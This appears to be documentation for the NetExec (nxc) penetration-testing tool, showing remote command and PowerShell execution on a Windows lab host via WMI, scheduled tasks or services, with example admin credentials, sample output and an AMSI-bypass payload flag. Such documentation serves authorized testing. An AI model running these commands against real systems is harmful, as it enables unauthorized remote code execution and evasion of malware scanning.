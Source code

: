 # Command Execution

## Executing commands on a windows system requires Administrator credentials.

### nxc automatically tells you if the credential set you're using has admin access to a host by appending "(Pwn3d!)" (or whatever value you've set in the config) to the output when authentication is successful.

# Execution Methods

### nxc has three different command execution methods:

 - wmiexec executes commands via WMI

 - atexec executes commands by scheduling a task with windows task scheduler

 - smbexec executes commands by creating and running a service

### By default nxc will fail over to a different execution method if one fails. It attempts to execute commands in the following order:

#### 1) wmiexec

#### 2) atexec

#### 3) smbexec

### If you want to force nxc to use only one execution method you can specify which one using the --exec-method flag.

# Executing commands

### In the following example, we try to execute whoami on the target using the -x flag:

    nxc 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami

    06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)

    06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)

    06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 

    06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         lab\administrator

    06-05-2016 14:34:39 [*] KTHXBYE!

### You can also directly execute PowerShell commands using the -X flag:

    nxc 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'

    06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)

    06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)

    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 

    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         Name                           Value

    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         ----                           -----

    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         CLRVersion                     2.0.50727.5420


    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         BuildVersion                   6.1.7601.17514

    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSVersion                      2.0

    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         WSManStackVersion              2.0

    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSCompatibleVersions           {1.0, 2.0}

    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         SerializationVersion           1.1.0.1

    06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSRemotingProtocolVersion      2.1

    06-05-2016 14:36:10 [*] KTHXBYE!

# AMSI Bypass

    nxc 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'  --amsi-bypass /path/payload

